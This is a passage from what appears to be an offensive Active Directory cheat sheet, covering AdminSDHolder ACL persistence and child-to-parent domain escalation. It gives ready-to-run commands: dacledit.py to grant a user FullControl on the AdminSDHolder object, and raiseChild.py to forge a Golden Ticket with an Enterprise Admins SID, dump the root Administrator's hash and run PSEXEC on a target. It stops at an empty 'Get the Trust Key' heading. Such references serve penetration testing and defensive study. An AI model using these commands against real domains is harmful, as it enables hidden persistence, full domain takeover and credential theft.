 ### ACLs - AdminSDHolder

AdminSDHolder is a solution that compares the ACLS of the objects with `AdminCount=1` with a list of ACLs. If the ACLs of the objects are different, they are overwritten. The script run normally every hour.

#### Attack

* With write privs on the AdminSDHolder object, it can be used for persistence by adding a user with Full Permissions to the AdminSDHolder object for example.
* When the automatique script will run, the user will be added with Full Control to the AC of groups like Domain Admins.

```bash
dacledit.py -action write -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -principal user1 -rights FullControl -ace-type allowed -dc-ip <DC_IP> 'domain.local'/'administrator':'password'
```

#### Check Domain Admin ACLs

```bash
dacledit.py -action read -target "Domain Admins" -principal user1 -dc-ip <DC_IP> domain.local/user1:password
```

### ACLs - Interesting rights

The ACLs can be used for persistence purpose by adding interesting rights like DCSync, FullControl over the domain, etc. Check the ACLs attacks section.

## Cross-Trust Movement

### Child To Parent Domain

Escalate from a child domain to the root domain of the forest by forging a Golden Ticket with the SID of the **Enterprise Admins** group in the SID history field.

#### With the krbtgt hash

```bash
#The new Golden Ticket will be written at the path specified in -w
raiseChild.py -w ./ticket.ccache child.domain.local/Administrator:password

#Dump the Administrator's hash of the root domain
raiseChild.py child.domain.local/Administrator:password

#PSEXEC on a machine
raiseChild.py -target-exec <target> child.domain.local/Administrator:password
```

### Across Forest - Inbound trust

#### Get the Trust Key

